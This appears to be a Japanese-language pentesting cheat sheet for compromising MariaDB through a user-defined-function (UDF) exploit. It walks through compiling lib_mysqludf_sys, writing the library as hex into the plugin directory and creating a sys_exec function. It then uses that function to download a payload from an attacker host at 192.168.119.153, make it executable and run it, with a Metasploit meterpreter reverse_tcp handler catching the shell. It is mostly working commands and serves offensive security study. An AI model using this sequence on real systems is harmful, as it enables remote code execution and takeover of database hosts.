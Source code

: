 # MariaDB

* ログイン

  ```
  mysql --host=127.0.0.1 --port=13306 --user=wp -p
  ```

  

* 情報収集

  ```mariadb
  SHOW Grants;
  ```

  ※"*"の権限があるとより良い

  ```mariadb
  show variables;
  ```

  * プラグインのディレクトリ等をメモしておく



* 脆弱性調査

  ```bash
  searchsploit mariadb
  searchsploit mysql
  ```



### UDF(User Defined)エクスプロイト

MySQLのカスタム関数を作成し、システムコマンドを含むほとんどすべてのコードを実行する

* シェルスクリプトをダウンロードする

  ```bash
  git clone https://github.com/mysqludf/lib_mysqludf_sys.git
  cd lib_mysqludf_sys/
  ```

* libmysqlclient15-dev をインストールする

  ```bash
  sudo apt update && sudo apt install default-libmysqlclient-dev
  sudo apt install default-libmysqlclient-dev
  ```

* 古いオブジェクトファイルを削除

  ```bash
  rm lib_mysqludf_sys.so
  ```

* Makefileを修正する

  ```makefile
  LIBDIR=/usr/lib
  
  install:
  	gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
  ```

  * Wallフラグ：gccの警告メッセージをすべて有効
  * -Iはヘッダーファイルのディレクトリを含める

* コンパイルする

  ```
  make
  ```

  * ライブラリがなければ再度apt installを試してみる
  * それでもなければネットからダウンロードして-Iオプションで指定したディレクトリ配下に追加する

  * __WINエラの対処法

    ![image-20230125210644950](img/mariadb/image-20230125210644950.png)

    https://forums.offensive-security.com/showthread.php?38783-24-3-2-make-failed-(missing-m_ctype-h)/page4&p=190865#post190865

* データベースに登録するためにhexdumpを出力する

  ```bash
  xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
  ```

  -p：プレーンなhexdumpを出力

   tr を使って改行文字を削除

* MariaDBにシェルコード用の変数を作成する

  ※hexファイルの出力の先頭に`0x`を付けて定義する(MariaDBがテキストをバイナリとして読み取るために必要なもの)

  ```mariadb
  set @shell = 0x7f454c4602010100000000000000000003003e00010000000000000000000000400000000000000070390000000000000000000040003800090040001c001b000100000004000000000000000000000000000000000000000000000000000000b009000000000000b009000000000000001000000000000001000000050000000010000000・・・・・・・・・・・・・・・・・・・・000001100000003000000000000000000000000000000000000007c38000000000000f100000000000000000000000000000001000000000000000000000000000000;
  ```

* プラグインディレクトリの場所を確認

  ```bash
  select @@plugin_dir;
  ```

* シェル変数を攻撃対象ホストのプラグインフォルダに出力

  ```mariadb
  select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
  ```

  ※ファイル名には好きな名前を付けることができる

* 関数を作成する

  ```mariadb
  create function sys_exec returns int soname 'udf_sys_exec.so';
  ```

* 関数ができたか確認する

  ```bash
  select * from mysql.func where name='sys_exec';
  ```

* リバースシェルを配送して実行する

  ```mariadb
  select sys_exec('wget http://192.168.119.153');
  select sys_exec('wget http://192.168.119.153/shell_2.elf');
  select sys_exec('chmod +x ./shell_2.elf');
  ```

  ```bash
  exit
  sudo msfconsole -q -x "use exploit/multi/handler;\
               set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
               set LHOST 10.11.0.4;\
               set LPORT 443;\
               run"
  ```

  ```mariadb
  select sys_exec('./shell_2.elf');
  ```